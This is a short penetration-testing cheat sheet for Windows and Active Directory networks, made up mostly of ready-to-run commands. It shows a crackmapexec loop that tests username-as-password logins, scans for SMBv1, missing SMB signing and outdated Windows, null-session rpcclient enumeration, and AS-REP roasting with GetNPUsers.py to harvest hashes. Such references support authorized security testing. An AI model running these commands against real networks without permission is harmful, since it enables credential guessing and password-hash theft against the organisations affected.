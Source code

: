 - https://www.thehacker.recipes/physical/networking/network-access-control

### Username == password
Using crackmapexec to test for password equal to username on domain contoso.com

```
for word in $(cat users.txt); do crackmapexec smb 10.10.0.10 -u $word -p $word -d contoso.com; done
```

### SMB Version 1
```
crackmapexec smb all_ips.txt | grep -a "SMBv1:True" | cut -d " " -f 10
```

### SMB Signing
```
crackmapexec smb all_ips.txt | grep -a "signing:False" | cut -d " " -f 10
```

### Unsupported operating systems
```
crackmapexec smb all_ips.txt |  egrep -a "Windows 6.1|Server 2008|Server 2003|Windows 7|Server \(R\) 2008"
```

### Checking NLA and other RDP issue
rdp-sec-check is a Perl script to enumerate the different security settings of an remote destktop service (AKA Terminal Services)
- https://github.com/CiscoCXSecurity/rdp-sec-check

```
sudo cpan
cpan[1]> install Encoding::BER
rdp-sec-check.pl 10.0.0.93
```

### RPC / SMB null enumeration
```
rpcclient -U '' -N 10.10.0.10 -c "querygroupmem 0x200" |  cut -d '[' -f 2 | cut -d ']' -f 1
```
### AS-Rep Roasting
When a TGT request is made, the user must, by default, authenticate to the KDC in order for it to respond. Sometimes, this prior authentication is not requested for some accounts, allowing an attacker to abuse this configuration.

This configuration allows retrieving password hashes for users that have *Do not require Kerberos preauthentication* property selected:

- https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py
```
python3 GetNPUsers.py COMPANY.LOCAL/ -usersfile /home/user/users.txt -request -dc-ip 192.168.0.10 -format hashcat
```
